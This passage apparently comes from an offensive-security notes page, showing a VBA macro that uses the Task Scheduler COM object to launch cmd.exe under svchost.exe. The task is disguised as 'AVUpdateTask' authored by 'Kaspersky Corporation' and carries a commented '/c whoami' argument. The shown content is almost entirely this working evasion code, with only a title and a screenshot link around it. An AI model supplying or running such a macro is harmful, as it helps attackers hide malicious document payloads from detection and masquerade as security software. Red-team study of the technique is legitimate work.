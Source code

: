 ## Spawning via svchost.exe using Scheduled Task

{% code-tabs %}
{% code-tabs-item title="macro.vba" %}
```csharp
Set service = CreateObject("Schedule.Service")
Call service.Connect
Dim td: Set td = service.NewTask(0)
td.RegistrationInfo.Author = "Kaspersky Corporation"
td.settings.StartWhenAvailable = True
td.settings.Hidden = False
Dim triggers: Set triggers = td.triggers
Dim trigger: Set trigger = triggers.Create(1)
Dim startTime: ts = DateAdd("s", 30, Now)
startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
trigger.StartBoundary = startTime
trigger.ID = "TimeTriggerId"
Dim Action: Set Action = td.Actions.Create(0)
Action.Path = "C:\Windows\System32\cmd.exe"
'Action.Arguments = "/c whoami"
Call service.GetFolder("\").RegisterTaskDefinition("AVUpdateTask", td, 6, , , 3)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-10-22-19-03.png)

